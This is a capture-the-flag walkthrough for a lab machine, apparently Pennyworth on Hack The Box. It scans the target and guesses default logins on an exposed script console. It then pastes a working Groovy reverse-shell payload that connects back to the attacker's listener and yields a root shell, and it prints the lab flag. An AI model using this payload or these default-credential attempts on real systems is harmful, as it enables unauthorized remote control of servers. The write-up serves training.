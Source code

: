 ![Pennyworth.png](/assets/Tier-1/Pennyworth/Pennyworth.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 1 10.129.97.64
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.97.64
```

**Output**
```bash
PORT     STATE SERVICE
8080/tcp open  http-proxy
```


3. Visit web page

![web.PNG](/assets/Tier-1/Pennyworth/web.PNG)

4. Try to login with default credentials

| Username | Password |
|:--------:|:--------:|
| `admin`  | `admin`  |
| `root`   | `root`   |
| `admin`  | `password` |
| `root`   | `password` |
| `admin1` | `admin1`   |
| `admin`  | `password1` |
| `root`   | `password1` |

**Output**

![login.PNG](/assets/Tier-1/Pennyworth/login.PNG)

5. Go to `http://10.129.137.245:8080/script`

![script.PNG](/assets/Tier-1/Pennyworth/script.PNG)

* This console admit **Groovy scripts**
* Go to **https://www.revshells.com/** and find rev shell with Groovy.

6. Paste the code of reverse shell and modify to obtain a `bash`


```groovy
String host="<tun0 IP>";
int port=<port>;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
    while(si.available()>0)po.write(si.read());
    so.flush();po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    }catch (Exception e){}};
    p.destroy();s.close();
```


7. Listen on port you choose with **nc**
8. Click on **Run** in Script Console Window

9. You obtain a shell how root
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| nc -lvnp 4545                                            
listening on [any] 4545 ...
connect to [10.10.14.23] from (UNKNOWN) [10.129.137.245] 45768
whoami
root
```

10. Cat flag
```bash
cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
```








